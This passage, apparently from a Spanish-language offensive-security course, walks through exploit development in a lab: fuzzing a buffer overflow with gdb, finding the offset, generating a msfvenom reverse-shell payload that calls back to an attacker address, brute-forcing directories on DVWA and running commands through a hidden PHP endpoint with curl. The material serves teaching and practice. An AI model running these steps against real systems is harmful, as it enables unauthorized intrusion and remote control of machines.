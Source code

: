 ## 5.4. Creación de Exploits para 0-Day (Laboratorio)

Supongamos que encontramos un **desbordamiento de buffer** en un binario de prueba.

### Paso 1: Identificar el fallo

Usar `gdb`:

```bash
gdb ./vulnerable
run $(python3 -c 'print("A"*100)')
```

Si el programa crashea, tenemos un punto de entrada.

### Paso 2: Encontrar el offset

```bash
pattern_create.rb -l 200
run $(python3 -c 'print("<patrón_generado>")')
pattern_offset.rb <valor_EIP> 200
```

### Paso 3: Inyectar Shellcode

Generar payload con `msfvenom`:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.56.10 LPORT=4444 -f c
```

Insertarlo en el exploit en C o Python.

---

## 5.5. Simulación de un 0-Day en un Servicio Web Vulnerable

### Escenario:

* **Objetivo**: aplicación PHP vulnerable a una función no documentada.
* **Laboratorio**: DVWA (Damn Vulnerable Web App).

### Paso 1: Detectar endpoint oculto

```bash
gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirb/common.txt
```

Si encontramos `/admin_debug.php`, lo inspeccionamos.

### Paso 2: Exploitar la falla

Si el endpoint permite ejecutar comandos:

```bash
curl "http://192.168.56.101/admin_debug.php?cmd=ls+-la"
```

---